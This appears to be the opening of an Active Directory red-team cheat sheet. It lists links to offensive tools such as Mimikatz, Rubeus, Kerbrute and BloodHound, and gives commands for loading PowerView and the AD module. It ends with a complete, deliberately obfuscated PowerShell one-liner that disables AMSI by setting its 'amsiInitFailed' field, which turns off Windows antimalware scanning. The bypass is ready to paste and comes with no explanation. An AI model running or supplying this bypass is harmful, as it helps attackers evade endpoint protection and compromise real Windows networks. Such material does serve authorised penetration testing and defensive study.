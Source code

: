 
### Tools and Scripts



* [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)
  * [PowerView Tutorial](https://powersploit.readthedocs.io/en/latest/Recon/)
* [PowerView Dev](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)
* [PowerShellArmoury](https://github.com/cfalta/PowerShellArmoury)
* [PowerUpSQL](https://github.com/NetSPI/PowerUpSQL)
* [HeidiSQL Client](https://github.com/HeidiSQL/HeidiSQL)
* [AD Module](https://github.com/samratashok/ADModule)
* [PowerShell AMSI Bypass](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell)
* [Neo4j - Community Version](https://neo4j.com/download-center/#community)
* [SharpHound](https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors)
  * [SharpHound Tutorial](https://bloodhound.readthedocs.io/en/latest/data-collection/sharphound.html)
* [BloodHound](https://github.com/BloodHoundAD/BloodHound)
* [BloodHound-python](https://github.com/dirkjanm/BloodHound.py)
* [Rubeus](https://github.com/GhostPack/Rubeus)
* [MS-RPRN](https://github.com/leechristensen/SpoolSample)
* [Kekeo](https://github.com/gentilkiwi/kekeo/)
* [Mimikatz](https://github.com/gentilkiwi/mimikatz/)
* [Kerbrute](https://github.com/ropnop/kerbrute/)

### Pre-requisites



#### Using PowerView:



```
. .\PowerView.ps1
```

#### Using PowerView dev:



```
. .\PowerView_dev.ps1
```

#### Using AD Module



```
Import-Module .\Microsoft.ActiveDirectory.Management.dll
Import-Module .\ActiveDirectory\ActiveDirectory.psd1
```

## PowerShell AMSI Bypass



```
# AMSI bypass
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```
